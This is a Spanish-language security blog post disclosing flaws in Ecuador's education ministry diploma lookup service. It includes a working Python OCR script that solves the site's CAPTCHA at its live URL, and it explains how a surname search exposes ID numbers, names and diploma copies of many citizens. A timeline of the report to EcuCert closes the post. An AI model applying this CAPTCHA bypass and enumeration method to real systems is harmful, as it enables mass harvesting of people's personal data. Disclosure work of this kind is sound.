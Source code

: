 ```yaml
---
pubDatetime: 2025-06-16
title: Tus datos han sido filtrados | educacion.gob.ec
description: Ninguna inyección SQL fue necesaria, solo un apellido y el checkbox indicado para explotar el registro de títulos de bachilleres del Ecuador
featured: true
draft: true
author: eserror
tags:
  - filtracion
  - ecuador
---
```


Durante los últimos años el gobierno del Ecuador ha realizado esfuerzos por modernizar y digitalizar su infraestructura. Gracias a estas iniciativas, hoy en es posible realizar el apostillado, obtener una copia del título de bachiller u otros servicios que pueden ser encontrados en [www.gob.ec](https://www.gob.ec/).

Entre los nuevos servicios ofrecidos por el gobierno, la facilidad para obtener una copia del título de bachiller me llevó a pensar en las posibilidades, dada la cantidad cantidad y el tipo de información que posiblemente almacenaba, una falla de seguridad sería catastrófica.

Es así como descubrí una vulnerabilidad que afecta a la mayoría de los ecuatorianos, exponiendo cédulas, nombres completos, copia completa del título de bachiller, etc.

Es necesario un ataque sofisticado cuando un apellido y el checkbox indicado te pueden entregar toda la base de datos?

## Vulnerabilidades

1. Weak CAPTCHA

La plataforma del servicio de consulta de títulos de bachilleres, cuenta con un mecanismo para evitar repetidas solicitudes y abusos de bots, sin embargo, este mecanismo es muy debil por lo tanto fácil de vulnerar.

El siguiente código en python pretende ser una prueba de concepto para demostrar qué tan fácil es abusar del mecanismo de seguridad actual:

```python
import requests
from PIL import Image
import io
import re
import os
import easyocr
import numpy as np

try:
    reader = easyocr.Reader(['en'], gpu=True)
    EASYOCR_AVAILABLE = True
except Exception as e:
    print(f"ERROR: Failed to initialize EasyOCR: {e}")
    print("Please ensure 'easyocr' and 'torch', 'torchvision', 'torchaudio' are installed.")
    EASYOCR_AVAILABLE = False

def solve_captcha_ai(image_url, save_ocr_input_filename="image.png"):

    if not EASYOCR_AVAILABLE:
        print("EasyOCR is not available. Cannot proceed.")
        return None

    try:

        response = requests.get(image_url, stream=True, timeout=15)
        response.raise_for_status()
        image_bytes = response.content

        image_data_for_ocr = image_bytes

        try:
            if not save_ocr_input_filename:
                raise ValueError("Save filename is empty or None.")

            img_to_save = Image.open(io.BytesIO(image_data_for_ocr))
            img_to_save.save(save_ocr_input_filename)

        except ValueError as ve:
             print(f"Error preparing to save: {ve}")
        except Exception as e:

            print(f"Warning: Could not save the image being read ('{save_ocr_input_filename}'): {e}")
            print(f"Exception Type: {type(e)}")

        print("Processing image...")
        results = reader.readtext(image_data_for_ocr, detail=1, paragraph=False)

        if results:
            extracted_text = "".join([detection[1] for detection in results])
            cleaned_text = re.sub(r'[^a-zA-Z0-9]', '', extracted_text).strip()

            return cleaned_text
        else:
            print("EasyOCR did not detect any text in the image.")
            return ""

    except requests.exceptions.RequestException as e:
        print(f"Network error downloading image: {e}")
        return None
    except Exception as e:
        print(f"An unexpected error occurred: {e}")
        import traceback
        traceback.print_exc()
        return None

captcha_url = "https://servicios.educacion.gob.ec/titulacion25-web/Captcha.jpg"
filename_for_ocr_input = "image.png"

extracted_text = solve_captcha_ai(captcha_url, save_ocr_input_filename=filename_for_ocr_input)
print(f"Result: {extracted_text}")

```

En la pantalla de fondo, se encuentra la imágen `image.png`, esta se genera automáticamente con caracteres aleatorios como medida para evitar solicitudes excesivas. En la imágen, se puede ver el resultado de la ejecución del script que intenta leer el texto de la imágen, dando como resultado la lectura del texto de la imágen.

Lo importe de haber encontrado una falla en este componente, es que me permite realizar solicitudes al servicio, sin ningún tipo de restricción, lo cual es útil para extraer los registros de la base de datos de forma menos dolorosa.

![](@assets/images/Pasted image 20250417200405.png)

2. Sensitive Data Exposure

Existen dos formas de consultar información sobre un usuario específico, usando un ID como cédula o apellidos.

Usando la opción de los apellidos, es la que más retorno de inversión proporciona ya que solo es necesario un apellido random, y la aplicación te entrega la información de todos las personas que tengan ese apellido, es decir que si uso como apellido zambrano, mostrará la información de todos los ecuatorianos con ese apellido.

![](@assets/images/Pasted image 20250417110345.png)

![](@assets/images/Pasted image 20250417110500.png)

### Conclusión

Cada día es más común enterarse en las noticias sobre nuevas filtraciones de datos personales, las cuales pasan desapercibidas como una notificación molesta en el teléfono. Se habla de un crecimiento e iniciativas como la Estrategia Nacional de Ciberseguridad o la Ley Orgánica de Protección de Datos Personales, sin embargo en la práctica nos encontramos en un estado de inactividad cuando de la realidad se trata.

Report Timeline

17-04-2025: Reporte Inicial a EcuCert</br>
22-05-2025: EcuCert responde alegando que no hay un programa responsable de divulgación de vulnerabilidades</br>
16-06-2025: Sin respuesta
